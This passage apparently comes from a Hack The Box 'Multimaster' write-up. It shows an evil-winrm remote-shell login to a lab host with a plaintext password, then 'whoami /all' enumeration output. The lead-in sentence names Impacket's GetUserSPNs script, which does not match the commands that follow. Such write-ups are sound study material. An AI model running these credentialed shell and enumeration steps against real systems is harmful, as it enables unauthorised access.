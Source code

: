 Then we can use Impacket's GETSPNUSers.py

```text
zweilos@kalimaa:~/htb/multimaster$ evil-winrm -u sbauer -i 10.10.10.179 -p D3veL0pM3nT!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\sbauer S-1-5-21-3167813660-1240564177-918740779-3102


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                         Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
